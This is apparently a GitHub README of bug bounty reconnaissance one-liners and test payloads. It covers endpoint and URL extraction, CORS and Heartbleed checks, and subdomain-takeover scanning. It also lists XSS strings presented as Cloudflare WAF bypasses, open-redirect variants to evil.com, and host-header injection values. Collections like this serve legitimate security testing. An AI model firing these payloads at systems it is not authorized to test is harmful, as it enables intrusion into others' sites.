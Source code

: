 # BugBounty Resources

## Introduction


I always have to search for commands everytime I start to hunt for bugs.Therefore, I created this repository to list all useful commands of different tools. My intention is to make a repository containing all the important commands, technique and oneliners helpful for reconnaissance. 

If you think any important commands were not listed in this repository, feel free to contribute. 

## Extracting endpoints from JavaScript files:
	cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

## Extracting Juicy Information:
    for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done

## Extracting all the urls from sitemap
	curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'

## CORS Misconfiguration:
    site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

## Heartbleed vulnerability
    cat domains.txt
        example.com
        subdomain.example.com
    cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
  
 ## Finding subdomains and check for takeovers 
      subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/fingerprints.json -v 3 >> takeover ;
    
  ## Testing SQLi + XSS + SSTI with the same payload use
  	"><svg/onload=prompt(5);>{{7*7}}
  
  ##  XSS Cloudflare WAF bypass: 
  	<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
	<select><noembed></select><script x=’a@b’a>y=’a@b’//a@b%0a\u0061lert(1)</script x>
	<a+HREF=’%26%237javascrip%26%239t:alert%26lpar;document.domain)’>
	
  ## Valid URLs (Open Redirect Vulnerability)
	http(s)://evil.com
	http(s):\\evil.com
	//evil.com
	///evil.com
	/\/evil.com
	\/evil.com
	\\evil.com
	\/\evil.com
	/	/evil.com (That's a Tab Key / ASCII 0x09)
	\	\evil.com (That's a Tab Key / ASCII 0x09)
  ## Possible Host Header Injection
  	Host: emalple.com:1234"--><h1>TestScript<script>alert(1);
	X-Forwarded-Host: example.com/.example2.com
	Host: "><script>alert(1)</script>
	X-FORWARDED-FOR: example.com
	X-Forwarded-For: example.com
	Host: vulnerable-website.com:bad-stuff-here
	HTTP_FORWARDED: example.com
	HTTP_CLIENT_IP: 127.0.0.1
	HTTP_FORWARDED_FOR: exmaple.com
	HTTP_X_FORWARDED: example.com	
	HTTP_X_FORWARDED_FOR: example.com
	Front-End-Https: on
	Proxy-Connection: keep-alive
	X-Att-Deviceid: GT-P7320/P7320XXLPG
	X-CSRFToken: DECAFC0FFEEBAD
	X-Correlation-ID: f058ebd6-02f7-4d3f-942e-904344e8cde5
	X-Csrf-Token: DECAFC0FFEEBAD
	X-XSRF-TOKEN: DECAFC0FFEEBAD
	X-Do-Not-Track: 1
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-For: client1, proxy1, proxy2
	X-Forwarded-Proto: https
	X-HTTP-Method-Override: PUT
	X-ProxyUser-Ip: 127.0.0.1
	X-Request-ID: f058ebd6-02f7-4d3f-942e-904344e8cde5
	X-Requested-With: XMLHttpRequest
	X-UIDH: 31337DEADBEEFCAFE
	X-Wap-Profile: http://wap.samsungmobile.com/uaprof/SGH-I777.xml
	X-XSRF-TOKEN: DECAFC0FFEEBAD
	Client-IP: 127.0.0.1
	True-Client-IP: 127.0.0.1
	Cluster-Client-IP: 127.0.0.
	
	
	
	Note: You can input multiple host header to test.
		Example: Host: example.com
		         Host: attacker.com
		Example:  Host: example.com {Remember space before Host! Sometimes this can bypass validation}
			 Host: attacker.com
	Try to input absolute url to the URL path.
		Example: Get https://example.com/index.html?<original path>

#### Refrences:
  - https://github.com/dwisiswant0/awesome-oneliner-bugbounty
  - https://github.com/XalfiE/Bug-Bounty-Oneliners
  - https://bbinfosec.medium.com/collection-of-bug-bounty-tip-will-be-updated-daily-605911cfa248
  
